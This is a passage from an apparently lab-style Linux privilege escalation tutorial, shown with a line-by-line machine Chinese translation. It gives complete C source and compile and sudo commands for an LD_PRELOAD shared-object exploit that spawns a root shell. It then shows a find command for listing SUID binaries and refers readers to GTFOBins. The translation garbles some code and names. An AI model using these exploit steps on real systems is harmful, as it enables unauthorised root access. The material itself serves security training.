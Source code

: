 The C code will simply spawn a root shell and can be written as follows;  
C 代码将简单地生成一个根 shell，可以写成如下;

#include <stdio.h> #include < stdio.h>  
#include <sys/types.h> #include < sys/types.h>  
#include <stdlib.h> #include < stdlib.h>  
  
void _init() { 无效 _init（） {  
unsetenv("LD_PRELOAD"); unsetenv（“LD_PRELOAD”）;  
setgid(0); setgid（0）;  
setuid(0); setuid（0）;  
system("/bin/bash"); 系统（“/bin/bash”）;  
}  

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;  
我们可以将此代码保存为 shell.c，并使用以下参数使用 gcc 将其编译为共享对象文件;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png)  

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.  
现在，我们可以在启动用户可以使用 sudo 运行的任何程序时使用此共享对象文件。在我们的例子中，可以使用 Apache2、find 或几乎任何我们可以用 sudo 运行的程序。

We need to run the program by specifying the LD_PRELOAD option, as follows;  
我们需要通过指定 LD_PRELOAD 选项来运行程序，如下所示;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.  
这将导致具有 root 权限的 shell 生成。

![](https://i.imgur.com/1YwARyZ.png)
# Privilege Escalation: SUID
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
许多 Linux 权限控制都依赖于控制用户和文件的交互。这是通过权限完成的。到目前为止，您已经知道文件可以具有读取、写入和执行权限。这些权限授予用户在其权限级别内。这随着 SUID（设置用户标识）和 SGID（设置组标识）而改变。它们允许分别以文件所有者或组所有者的权限级别执行文件。  
  
You will notice these files have an “s” bit set showing their special permission level.  
您会注意到这些文件设置了一个“s”位，显示其特殊权限级别。  
  
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.  
`find / -type f -perm -04000 -ls 2>/dev/null` 将列出设置了 SUID 或 SGID 位的文件。

![](https://i.imgur.com/fJEeZ4m.png)

A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)).  
一个好的做法是将此列表中的可执行文件与 go awayBins （ [https://gtfobins.github.io](https://gtfobins.github.io/) ） 进行比较。单击SUID按钮将过滤设置SUID位时已知可利用的二进制文件（您也可以将此链接用于预过滤列表 [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) ）。
